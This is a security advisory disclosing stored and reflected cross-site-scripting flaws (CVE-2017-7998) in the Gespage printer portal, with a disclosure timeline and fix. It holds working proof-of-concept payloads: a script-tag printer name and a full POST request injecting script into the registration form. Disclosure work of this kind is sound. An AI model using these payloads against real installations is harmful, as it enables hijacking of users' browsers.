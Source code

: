 # [CVE-2017-7998] Gespage stored cross-site-scripting (XSS) vulnerability

## Description

Gespage is web solution providing a printer portal. Official Website: http://www.gespage.com/

The web application does not properly filter several parameters sent by users, allowing XSS code injection.
These vulnerabilities allow attackers to inject code inside the client web browser, such as malicious scripts in Javascript. Exploitation leads to a full takeover of the web browser and potentially of the operating system.

**CVE ID**: CVE-2017-7998

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-79

**CVSS Base Score**: 8.6

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N

### Proof of Concept 1 (stored XSS)

From the admin panel, it is possible to add a printer with a crafted name:

```
"><script>alert("printer xss")</script>
```

If an authenticated user loads the "My Jobs" ("https://URL:7181/gespage/users/prnow.jsp") page, his browser processes the Javascript payload, triggering the "printer xss" pop-up message.

### Proof of Concept 2 (reflected XSS)

From the registration page, it is possible to inject malicious web code inside all parameters. The POST request looks like the following:

```
POST /gespage/webapp/users/user_reg.jsp HTTP/1.1
Host: IP:7180
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://IP:7180/gespage/webapp/users/user_reg.jsp
Cookie: JSESSIONID=YOUR_COOKIE_HERE
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 129

New_User=New&username=test"><script>alert(1)</script>&email=test%40test.fr&passwd=testtest&repasswd=testtest&fullname=test&accept_term=accept&OK=Enregistrer
```

## Timeline (dd/mm/yyyy)

* 06/03/2017 : Initial discovery
* 13/03/2017 : First contact attempt (Web form)
* 21/04/2017 : Second contact attempt (public e-mail address)
* 23/06/2017 : Phone call and successful e-mail contact
* 23/06/2017 : Technical details sent to the editor
* 20/07/2017 : No reply, follow-up e-mail
* 27/07/2017 : Reply: fix planned for major release 7.5.0 in late September
* 17/09/2017 : Informing the editor that we would publish in October
* 3/10/2017 : Feedback from Gespage informing us that the issue has been fixed with version 7.4.9.
* 02/01/2018 : Release of the advisory

## Fixes

Upgrade to Gespage 7.4.9

## Affected versions

* Versions up to 7.4.9

## Credits

* Mickael Karatekin, TNP Consultants (mickael.karatekin -a-t- -tnpconsultants -dot- -com)
